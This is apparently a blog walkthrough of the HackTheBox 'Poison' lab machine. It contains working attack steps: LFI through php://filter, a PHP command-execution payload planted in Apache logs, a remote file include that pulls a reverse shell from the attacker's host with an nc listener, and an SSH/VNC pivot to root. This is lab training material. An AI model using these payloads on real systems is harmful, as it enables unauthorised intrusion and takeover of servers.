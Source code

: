 ﻿+++
date = "2025-10-01T00:00:00+00:00"
lastmod = "2025-10-01T00:00:00+00:00"
draft = false
title = "HackTheBox: Poison Walkthrough"
description = "Detailed walkthrough of the Poison machine (10.10.10.84) covering LFI log poisoning, PHP RFI exploitation, credential recovery and a VNC pivot to root."
summary = "Defeat HackTheBox Poison by chaining PHP log poisoning, reverse shelling, Base64 credential digging and an SSH/VNC pivot to root."
keywords = ["hackthebox poison","lfi","log poisoning","reverse shell","base64 decode","vnc pivot","freebsd","htb"]
tags = ["hackthebox","web-exploitation","lfi","reverse-shell","privilege-escalation"]
categories = ["HackTheBox"]
author = "realspaceeagle"
image = "/images/poison-htb/poison-browse-interface.png"
+++

Poison is a classic FreeBSD target where a seemingly innocuous PHP file browser turns into an LFI playground, then a remote file include launchpad and finally a VNC-based root shell. Below is the run‑book I used, enriched with notes, command snippets and the screenshots exported from my original field notes.

## Timeline

| T+ (hh:mm) | Action |
|-----------|--------|
| 00:00 | Launch full TCP/UDP discovery with `nmap` to map exposed services (22, 25, 80, 110, 119 and a few localhost-only ports). |
| 00:08 | Enumerate port 80 with Gobuster and discover `browse.php`, a file browser vulnerable to LFI. |
| 00:15 | Leak PHP source via `php://filter` and confirm log poisoning works against Apache access logs. |
| 00:24 | Serve a malicious PHP payload and include it through the poisoned log to obtain a shell. |
| 00:33 | Swap to a more stable reverse shell and enumerate credentials as `www`. |
| 00:41 | Decode the heavily base64-layered password for user `charix` and retrieve `secrets.dump`. |
| 00:52 | Establish an SSH SOCKS tunnel and pivot RFB traffic to VNC running as root. |
| 01:02 | Decrypt the VNC password, connect through the tunnel and capture the root flag. |

---

## Reconnaissance

```bash
mkdir -p ~/htb/poison/nmap
cd ~/htb/poison
sudo nmap -sC -sV -oA nmap/poison 10.10.10.84
nmap -p- -oA nmap/all-ports -vvv 10.10.10.84
nmap -sC -sV -p 22,25,80,110,119 10.10.10.84
```

The host is FreeBSD with SSH, SMTP and POP/NNTP exposed. Port 80 (`Apache/2.4.29`) became our main focus.

## Web Enumeration

Run a content brute-force and note an interesting file browser:

```bash
gobuster dir -u http://10.10.10.84 -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -x php -o gobuster-root.log
```

![browse.php file manager](/images/poison-htb/poison-browse-interface.png)

Beyond simple navigation, `browse.php` accepts a `file` parameter that we can point wherever we like. Local files are readable as rendered HTML, so `php://filter` attacks were the obvious next step.

## Local File Inclusion & Log Poisoning

Use the filter wrapper to base64-dump the PHP source:

```http
GET /browse.php?file=php://filter/convert.base64-encode/resource=index.php HTTP/1.1
Host: 10.10.10.84
```

Decoding the response revealed that Apache access logs were included from `/var/log/httpd-access.log`. Inject a PHP payload into the log by visiting a crafted URL:

```bash
curl "http://10.10.10.84/browse.php?file=<?php system(\$_GET['cmd']); ?>"
```

Then request the log via LFI and execute commands:

```http
GET /browse.php?file=/var/log/httpd-access.log&cmd=id HTTP/1.1
```

![Decoded payload delivered through browse.php](/images/poison-htb/poison-upload-html.png)

## Remote File Include to Shell

Direct command execution was unstable, so I staged a remote file include. Serve the classic PentestMonkey reverse shell and load it through the poisoned log:

```bash
php -S 10.10.14.13:8000
curl "http://10.10.10.84/browse.php?file=http://10.10.14.13:8000/revshell.php"
```

![Triggering remote include](/images/poison-htb/poison-rfi-response.png)

Listen on Kali:

```bash
rlwrap nc -nlvp 9001
```

Within moments a shell popped as `www`. Upgrade it and pull in enumeration scripts.

![Interactive reverse shell](/images/poison-htb/poison-reverse-shell.png)

## Pivot to User `charix`

The home directory held a `pwd.txt` encoded thirteen times with Base64. A one-liner peeled back the layers:

```bash
data=$(cat pwd.txt); for i in $(seq 1 13); do data=$(echo $data | tr -d ' ' | base64 -d); done; echo $data
```

![Decoded password for charix](/images/poison-htb/poison-password-decode.png)

Armed with the password, SSH in and grab `secrets.dump` for later use.

![Copying secrets.dump](/images/poison-htb/poison-secrets-dump.png)

## VNC Pivot & Root Access

`/etc/rc.conf` and the process list showed `Xvnc` listening only on localhost (5801/5901). The dump also pointed at VNC credentials. Build a SOCKS tunnel and forward traffic:

```bash
ssh charix@10.10.10.84 -D 8081
proxychains vncviewer 127.0.0.1:5901 -passwd secret
```

![Socksified VNC connection](/images/poison-htb/poison-vnc-portforward.png)

![Decrypting the VNC password](/images/poison-htb/poison-vnc-decrypter.png)

After authenticating, the desktop revealed the root flag. Mission accomplished.

## Key Takeaways

- File browsers often double as LFI gadgets—check for `php://` wrappers and log inclusions.
- Layered base64 encoding is a common attempt at obfuscation. Automate the decode loop instead of doing it manually.
- FreeBSD services such as VNC frequently bind to localhost; SOCKS tunnels plus proxychains keep pivots painless.
- Always screenshot and document each pivot—future-you will appreciate the breadcrumbs.

Happy hacking!

